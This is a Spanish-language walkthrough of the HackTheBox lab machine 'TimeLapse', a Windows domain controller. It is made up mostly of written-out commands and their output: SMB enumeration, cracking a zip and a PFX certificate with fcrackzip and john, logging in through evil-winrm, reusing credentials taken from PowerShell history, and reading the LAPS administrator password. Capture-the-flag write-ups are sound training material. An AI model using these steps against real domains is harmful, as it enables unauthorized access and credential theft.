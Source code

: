 ```yaml
---
title: HTB - TimeLapse
author: conde
date: 2022-08-21 14:43:00 -03000 
categories: [HackTheBox, Dificultad Fácil]
tags: [htb, guide]
math: true
mermaid: true
image:
  src: https://i.postimg.cc/DwZFYmHG/Timelapse.png
  width: 500
  height: 200
---
```


## Indice

- [Enumeración](#enumeración)
- [Ganando acceso al sistema](#ganando-acceso-al-sistema)
- [Escalada de privilegios](#escalada-de-privilegios)

### Enumeración

Comenzamos con una enumeración de puertos por TCP con nmap.

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.11.152 -oG OpenPorts
```

- Resultado nmap
    - **53/tcp    open  domain**
    - **88/tcp    open  kerberos-sec**
    - **135/tcp   open  msrpc**
    - **139/tcp   open  netbios-ssn**
    - **389/tcp   open  ldap**
    - **445/tcp   open  microsoft-ds**
    - **464/tcp   open  kpasswd5**
    - **593/tcp   open  http-rpc-epmap**
    - **636/tcp   open  ldapssl**
    - **3268/tcp  open  globalcatLDAP**
    - **3269/tcp  open  globalcatLDAPssl**
    - **5986/tcp  open  wsmans**
    - **9389/tcp  open  adws**
    - **49667/tcp open  unknown**
    - **49673/tcp open  unknown**
    - **49674/tcp open  unknown**
    - **49694/tcp open  unknown**
    - **53672/tcp open  unknown**

Podemos ver que es un controlador de dominio, lo que vamos a hacer ahora, es ver que recursos tiene compartidos. 

```bash
smbclient -L 10.10.11.152 -N
```

- Resultado smbclient
    - ADMIN$
    - C$
    - IPC$
    - NETLOGON
    - Shares
    - SYSVOL

Podemos ver que tiene una carpeta interesantes llamada **shares**. Vamos a conectarnos a ellas, y vemos el contenido que tiene dentro. 

- Indicamos 4 y 2 barras para **escaparlas**

```bash
smbclient \\\\10.10.11.152\\shares
```

Una vez que entramos y investigamos un poco podemos ver un zip interesantes, que vamos a descargar a nuestro equipo. 

```bash
get winrm_backup.zip
```

Si intentamos descomprimir el zip, no pide una clave por lo que vamos a probar a realizar fuerza bruta con una herramienta propia para cracking de zips. 
- **-D** → Modo diccionario
- **-u** → Modo descomprimir
- **-p** → Usar una cadena como contraseña.

```bash
fcrackzip -D -u winrm_backup.zip -p /usr/share/wordlists/rockyou.txt
```

Genial, hemos podido obtener la clave que es `supremelegacy`.  Vamos a descomprimirlo usando la clave que nos ha devuelto. 

```bash
unzip winrm_backup
```

Una vez descomprimido podemos ver un fichero pfx, si miramo el nombre del zip nos puede dar una pista. Si recordamos, **evil-winrm**, nos permite realizar una conexión haciendo uso del  certificado y la clave privada, por lo que vamos a intentar sacar la contraseña del pfx para generar el certificado y la clave privada. 

```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
```

Ahora vamos a crackear ese hash obtenido. 

```bash
john -w /usr/share/wordlists/rockyou.txt pfx.hash --rule /usr/share/john/rules/rockyou-30000.rule
```

Genial, la hemos obtenido, la clave es `thuglegacy`. Vamos a generar nuestro certificado y nuestra clave privada. Comenzamos con la clave privada.

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out kprivada.pem -nodes
```

Ahora, sacamos el certificado. 

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificado.pem
```

### Ganando acceso al sistema

- Pasamos la clave privada a un .key.

```bash
cat kprivada.pem > kprivada.key
```

- Pasamos el certificado a un .cert.

```bash
cat certificado.pem > certificado.cert
```

Ahora que ya hemos obtenido ambas cosas, vamos a conectarnos con evil-winrm. 
- -S → Habilitar SSL 
- -k → Clave Privada (PATH)
- -c → Clave Publica (PATH)
- -i → IP del equipo remoto o hostname

```bash
evil-winrm -S -k kprivada.key -c certificado.cert -i 10.10.11.152
```

Listo, ya estamos dentro del S.O, genial, ya podemos ver la flag del usuario. Vamos a ver que usuario somos de varias formas.

```powershell
whoami
whoami /user
[System.Environment]::UserName
```

Vemos que somos el usuario legaccy, vamos a dirigirnos al escritorio, y vamos a ver la flag. 

```powershell
gc C:\Users\legaccy\Desktop\user.txt
```

### Escalada de privilegios

Vamos a pasar el archivo winpeas.bat a nuestra máquina victima y lo vamos a ejecutar. 

- Donwload [**winpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

```powershell
./winpeas.bat
```

Vemos un fichero sospechosos, llamado **ConsoleHost_history.txt**. Dentro del podemos ver que hay un usuario con permisos, que ejecuta comandos con privilegios. Vamos a usar las variables del fichero para nosotros generar una conexión y ejecutar comandos como ese usuario. 

```powershell
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
```

Ahora vamos a ejecutar un comandos que nos va a permitir ver la contraseña del usuario admin. 

```powershell
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
```

Bien, nos ha devuelto una contraseña que es **8p4Uc,AC5lJ9E]P9X7#3$10@**. Vamos a cerrar esta sesión y conectarnos como el usuario administrador por evil-winrm de nuevo. 

```powershell
evil-winrm -u 'Administrator' -p '8p4Uc,AC5lJ9E]P9X7#3$10@' -i 10.10.11.152  -S
```

Ahora que nos conectamos como administrador, ya podemos ver la flag del root, si no sabemos donde se ubica podemos usar el siguiente comando: 

```powershell
Get-ChildItem -Path C:\ root.txt -Recurse 2>$null
```

